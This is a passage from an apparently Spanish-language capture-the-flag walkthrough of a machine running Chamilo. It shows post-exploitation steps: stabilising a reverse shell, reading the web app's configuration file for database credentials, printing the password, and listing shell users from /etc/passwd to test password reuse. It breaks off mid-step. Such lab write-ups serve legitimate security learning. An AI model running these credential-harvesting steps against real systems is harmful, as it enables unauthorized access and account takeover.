```
stty raw -echo; fg
```

```
reset xterm
```

```
export TERM=xterm
export SHELL=bash
```

Ya en la máquina vamos a entrar a la carpeta del servidor web para buscar credenciales de la base de datos.

```
cd /var/www
ls

chamilo  html
```

```
cd chamilo
```

En chamilo, tras navegar por los directorios encontramos el archivo `app/config/configuration.php` que contiene las credenciales de acceso a la base de datos.

```
cat app/config/configuration.php

...etc...

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';

...etc...
```

Encontramos la contraseña `03F6lY3uXAP2bkW8`, que podemos comprobar si se reutiliza en algun usuario de la máquina. Para ello vamos a listar todos los usuarios con una shell (que normalmente acaban en "sh").

```
cat /etc/passwd | grep -E 'sh$'

root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

Hay un usuario `mtz`, vamos a probar a autenticarnos con la contraseña de la base de datos.

Desde la máquina víctima:

